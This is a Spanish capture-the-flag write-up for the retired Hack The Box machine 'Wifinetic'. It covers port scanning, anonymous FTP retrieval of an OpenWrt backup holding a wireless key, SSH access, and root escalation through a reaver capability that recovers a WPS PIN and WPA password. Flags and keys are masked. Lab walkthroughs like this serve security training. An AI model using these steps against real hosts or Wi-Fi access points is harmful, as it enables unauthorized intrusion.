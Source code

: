 # Wifinetic HTB

### Máquina Easy - Linux - Retirada

## Fase de Escaneo

Primero realizamos un escaneo para identificar los puertos abiertos
```
sudo nmap 10.10.11.247 -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts
```

Encontramos los siguientes puertos abiertos:
```
 Ports: 21/open/tcp//ftp///, 22/open/tcp//ssh///, 53/open/tcp//domain
```

Ahora procedemos a realizar la segunda parte del escaneo, pero más exhaustivo.
```
nmap -p21,22,53 10.10.11.247 -Pn -oN Targeted
```

Nuestro resultado es:
```
# Nmap 7.94 scan initiated Tue Oct 31 00:55:24 2023 as: nmap -sCV -p21,22,53 -oN Targeted 10.10.11.247
Nmap scan report for 10.10.11.247
Host is up (0.22s latency).

PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 31 00:55:39 2023 -- 1 IP address (1 host up) scanned in 14.91 seconds
```

Podemos observar que el puerto 21 FTP, podemos acceder como Anonymous y ver que carpeta se está compartiendo por el mismo.


---
## Fase de enumeración

```
ftp 10.10.11.247
```

Procedemos a entrar como Anonymous y luego listamos los archivos disponibles.

```
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||42179|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
-rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
-rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
-rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
226 Directory send OK.
ftp> 
```

Esos son los archivos disponibles, ahora lo pasaremos a nuestra máquina local con `mget*`

Procedemos a descomprimir el archivo .tar

```
tar -xf backup-OpenWrt-2023-07-26.tar
```

Revisando todo los recursos disponibles, recolectamos los posibles usuarios. Además en la carpeta "config", encontré un archivo llamado wireless. Cuando le realicé un `cat`, leyendo me encontré una parte donde se encontraba una contraseña.  

```
option key '******************'
```

Realicé un ataque de fuerza bruta con hydra con la recolección de usuarios que había hecho previamente y tuve éxito.

```
ssh netadmin@10.10.11.247 
```

Una vez adentro obtenemos la primera flag

```
651*************************
```


---
## Escalada de Privilegios

Traté de buscar binarios con permisos SUID, pero no encontré ninguno que pudiera explotar. así que busqué las capabilities.

```
getcap -r / 2>/dev/null
```

```
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

Previamente es mi investigación al comienzo, investigué acerca de `Reaver` es una herramienta que permite realizar ataques de fuerza bruta contra puntos de acceso que tienen activado el WPS (Wifi Protected Setup), se trata de un mecanismo que es, al día de escribir este articulo, uno de los más efectivos que hay contra WPA-PSK.

Procedemos a ejecutar el programa:

```
reaver -b 02:00:00:00:00:00 -i mon0 -v
```

Este seria el resultado:

```
netadmin@wifinetic:~$ reaver -b 02:00:00:00:00:00 -i mon0 -v

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[!] Found packet with bad FCS, skipping...
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] WPS PIN: '12345670'
[+] WPA PSK: 'PASSWORD'
[+] AP SSID: 'OpenWrt'
```

Obtuvimos una contraseña, ahora accederemos al usuario root para probar si las credenciales son válidas.

```
netadmin@wifinetic:~$ su root
Password: 
root@wifinetic:/home/netadmin# id
uid=0(root) gid=0(root) groups=0(root)
root@wifinetic:/home/netadmin# 
```

Ya tenemos acceso al usuario root , ahora solo tocaría buscar la última flag
```
root@wifinetic:/home/netadmin# cat /root/root.txt 
94********************************
root@wifinetic:/home/netadmin# 
```

¡Máquina totalmete PWNED! :D
